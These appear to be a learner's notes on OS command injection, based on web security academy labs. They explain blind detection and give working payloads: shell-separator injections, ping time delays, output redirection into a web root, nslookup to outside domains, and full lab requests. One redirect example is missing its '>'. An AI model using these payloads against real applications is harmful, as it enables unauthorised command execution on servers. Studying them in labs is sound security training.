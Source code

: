 # OS command injection

It's about injecting commands  on the server which is running an application and fully compromise the data as well as application.

If a application usages the following request to view the stock 

```
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

In the background something like  the following code might be running

```
stockreport.pl 381 29
```

As there is no defence again OS command injection attacker could run 


```
& echo aiwefwlguh &
```

which may give the following error 

```
Error - productID was not provided
aiwefwlguh
29: command not found
```


## Useful commands
| Purpose of Command         | Linux        | Windows         |
|---------------------------|--------------|-----------------|
| Name of current user      | `whoami`     | `whoami`        |
| Operating system          | `uname -a`   | `ver`           |
| Network configuration     | `ifconfig`   | `ipconfig /all` |
| Network connections       | `netstat -an`| `netstat -an`   |
| Running processes         | `ps -ef`     | `tasklist`      |
 



## Blind OS command injection vulnerabilities

Most of the instances are based on blind OS command injection which means, there is no response return from the command within it's `HTTP` response. 


Let's say and feedback application is being using where email is being sent using mail command.

```
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

The output from the mail command is not returned on the application's responses. 

**Detecting blind OS command injection using time delays**

We can use time delay to check if os command is being executated or not, One of the best method is to use `ping` command as it will let us specify the number of ICMP packets to sent.

```
& ping -c 10 127.0.0.1 &
``` 
This command causes the application to ping its loopback network adapter for 10 seconds. 

## Exploiting blind OS command injection by redirecting output

If an application is serving files from `/var/www/static` we can redirect the output of the command to the static directory 

```
& whoami /var/www/static/0xtheM7.txt &
```


## Exploiting blind OS command injection using out-of-band (OAST) techniques

We can inject command that will tirgger an out of bound network interaction 

```
& nslookup himansu.com.np &
```

```
& nslookup 0xthem7.xyz &
```

# Labs
## Lab: OS command injection, simple case

Check the stock and send the following request 
```
POST / product / stock HTTP / 2
Host: 0 a240078040afaa68551a563009200e3.web - security - academy.net
Cookie: session = QVkvVxREjzeXTb4B1zF470CS39mKcuhx
User - Agent: Mozilla / 5.0(X11; Linux x86_64; rv: 138.0) Gecko / 20100101 Firefox / 138.0
Accept: *
/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a240078040afaa68551a563009200e3.web-security-academy.net/product?productId=2
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a240078040afaa68551a563009200e3.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers

productId=2&storeId=1;whoami
```

## Lab: Blind OS command injection with time delays

Payload used to solve the lab 

```
email=x||ping+-c+10+127.0.0.1||
```

Assuming this is injected into a parameter (`email`) in a backend system that uses it unsafely like:

```
somecommand --email=$email
```

Email is being controlled by attacker as we are filling the form


```
email=x||ping+-c+10+127.0.0.1||
```

It get's split in 

`x` → just a placeholder or dummy value

`||` → logical OR in the shell

`ping` -c 10 127.0.0.1 → ping localhost 10 times

`||` → another OR (used to chain commands or ensure execution)



As `email=x` is going to fail ping command will be triggered. 

You can also run on your terminal 

```
0xtheM7 || whoami
```

```
echo 0xtheM7 || whomami
```

The first command will run `whoami` as there is no command such as `0xtheM7` or Logical OR will run `whoami` command but in case of second on we wil be runngin `echo` command 



## Lab: Blind OS command injection with output redirection

Payload used to solve the lab 

```
csrf=2g6DRob8aEXHozDiwXDVj2UERt46YtmP&name=Coolcool&email=x||whoami+>+/var/www/images/0xtheM7.txt||&subject=cool&message=cool
```

The we fetched the output over 

https://YOURINSTANCE//image?filename=0xtheM7.txt
